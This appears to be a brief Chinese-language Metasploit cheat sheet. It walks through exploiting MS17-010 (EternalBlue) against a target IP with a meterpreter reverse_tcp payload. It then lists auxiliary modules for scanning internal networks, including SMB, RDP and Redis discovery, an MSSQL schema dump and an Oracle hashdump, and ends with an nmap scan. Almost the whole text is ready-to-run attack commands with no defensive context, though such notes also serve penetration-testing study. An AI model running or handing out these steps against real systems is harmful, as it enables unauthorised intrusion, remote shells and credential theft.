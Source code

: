 metasploit
---
进入框架：msfconsole

    使用search命令查找相关漏洞： search  ms17-010

    使用use进入模块:  use exploit/windows/smb/ms17_010_eternalblue

    使用info查看模块信息： info

    设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp

    查看模块需要配置的参数：show options

    设置参数：set  RHOST  192.168.125.138

    攻击：exploit /  run

    后渗透阶段
    
exploit漏洞利用模块路径：/usr/share/metasploit-framework/modules/exploits

payload模块路径：/usr/share/metasploit-framework/modules/payloads

search scanner type:auxiliary 搜索

auxiliary/scanner/ftp/ftp_version        #发现内网ftp服务，基于默认21端口

auxiliary/scanner/ssh/ssh_version        #发现内网ssh服务，基于默认22端口

auxiliary/scanner/telnet/telnet_version  #发现内网telnet服务，基于默认23端口

auxiliary/scanner/dns/dns_amp            #发现dns服务，基于默认53端口

auxiliary/scanner/http/http_version      #发现内网http服务，基于默认80端口

auxiliary/scanner/http/title             #探测内网http服务的标题

auxiliary/scanner/smb/smb_version        #发现内网smb服务，基于默认的445端口

use auxiliary/scanner/mssql/mssql_schemadump  #发现内网SQLServer服务,基于默认的1433端口

use auxiliary/scanner/oracle/oracle_hashdump  #发现内网oracle服务,基于默认的1521端口 

auxiliary/scanner/mysql/mysql_version    #发现内网mysql服务，基于默认3306端口

auxiliary/scanner/rdp/rdp_scanner        #发现内网RDP远程桌面服务，基于默认3389端口

auxiliary/scanner/redis/redis_server     #发现内网Redis服务，基于默认6379端口

auxiliary/scanner/db2/db2_version        #探测内网的db2服务，基于默认的50000端口

auxiliary/scanner/netbios/nbname         #探测内网主机的netbios名字

auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描(1-10000)

auxiliary/scanner/portscan/syn           #基于syn进行端口扫描

auxiliary/scanner/portscan/ack           #基于tcp的ack回复进行端口扫描，默认扫描1-10000端口

search -S auxiliary ssh
Metasploit扫描

msf > nmap -v -sV 192.168.1.111　
